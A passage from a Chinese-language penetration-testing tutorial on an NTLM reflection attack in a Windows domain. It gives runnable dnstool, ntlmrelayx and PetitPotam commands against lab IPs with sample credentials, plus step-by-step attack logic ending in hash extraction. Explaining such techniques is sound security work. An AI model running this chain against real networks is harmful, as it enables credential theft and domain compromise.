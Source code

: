 
```
python dnstool.py -u luckytom.com\domainuser01 -p User01!@# -r badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.214.130 --action modify 192.168.214.134
```

  
  
2.   
开启监听，用于接收目标服务器发起的认证请求并反射回给目标服务器  
。  
  

```
python ntlmrelayx.py -t 192.168.214.135 -smb2support
```

  
  
3.   
强制目标服务器向指定的主机发起 NTLM 认证  
。  
  

```
python PetitPotam.py -d luckytom.com -u domainuser01 -p User01!@# badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 192.168.214.135
```

  
  
具体的攻击逻辑是如何实现的呢?  
  

```
1. 攻击者在域控上添加一条精心构造的 DNS 记录，将主机名 badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 指向攻击者的 IP 192.168.214.138
2. 攻击者在内网跳板机（不必在域内，网络连通即可）上启动 SMB/LDAP 等协议的监听，接收到目标主机发起的 NTLM 认证请求后将其反射回目标主机
3. 强制目标主机向 badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 发起 NTLM 认证
3. 目标主机向域控查询 badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 的 A 记录，并解析到 IP 192.168.214.138
4. 目标主机向攻击者（192.168.214.138）发起 NTLM 认证请求
5. 攻击者将收到的认证请求反射回目标主机
6. 目标主机触发漏洞进行本地身份验证
7. 在本地身份验证握手中，攻击者监听到有 Token 的上下文句柄，并提取 Hash
```

  
0x03 实战中不是问题的问题  
  
  
参考资料  
  

```
1. Windows 445 端口占用
2. 相关利用脚本均依赖impacket
```

  
  
依赖  
impacket  
是很常见的问题，一般走隧道解决即可，主要问题在于入口机器如果是 Windows 的话，则会存在因为系统默认的 SMB 服务导致的端口占用问题。  
  
如果在 Windows 下直接开启监听，那么会遇到监听失败的情况，而如果通过  
--smb-port  
监听指定端口，又会导致默认是跟 445 端口进行验证而无法正常获取到上下文句柄的问题。那么如何解决呢？  
  